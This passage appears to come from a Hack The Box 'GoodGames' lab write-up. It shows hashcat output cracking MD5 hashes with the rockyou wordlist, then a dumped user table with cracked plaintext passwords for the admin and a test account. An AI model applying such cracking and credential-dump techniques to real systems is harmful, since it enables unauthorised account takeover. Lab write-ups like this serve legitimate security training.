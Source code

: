 Host memory required for this attack: 1473 MB

Dictionary cache hit:
* Filename..: .\dictionaries\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 1104517568

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: .\input\goodgames.htb.txt
Time.Started.....: Thu Dec 22 13:21:36 2022 (1 sec)
Time.Estimated...: Thu Dec 22 13:21:37 2022 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (.\dictionaries\rockyou.txt)
Guess.Mod........: Rules (..\hashcat\rules\best64.rule)
Guess.Queue......: 1/95 (1.05%)
Speed.#1.........:  1082.1 MH/s (62.14ms) @ Accel:512 Loops:77 Thr:512 Vec:1
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new)
Progress.........: 605677919/1104517568 (54.84%)
Rejected.........: 125279/605677919 (0.02%)
Restore.Point....: 3933082/14344384 (27.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-77 Iteration:0-77
Candidate.Engine.: Device Generator
Candidates.#1....: se7ven1985 -> gllabe
Hardware.Mon.#1..: Temp: 35c Fan: 27% Util: 43% Core:1759MHz Mem:3802MHz Bus:16
Started: Thu Dec 22 13:21:27 2022
Stopped: Thu Dec 22 13:21:38 2022
PS D:\hashcat-6.2.6>
```

**Cracked Hashes**
Important - the 'Register' user was created when performing tests and is not initial DB account
```
Database: main
Table: user
[2 entries]
+----+----------+---------------------+----------------------------------+--------------------+
| id | name     | email               | password                         | password           |
+----+----------+---------------------+----------------------------------+--------------------+
| 1  | admin    | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec | superadministrator |
| 2  | Register | register@form.com   | 2c103f2c4ed1e59c0b4e2e01821770fa | Password123!       |
+----+----------+---------------------+----------------------------------+--------------------+
```

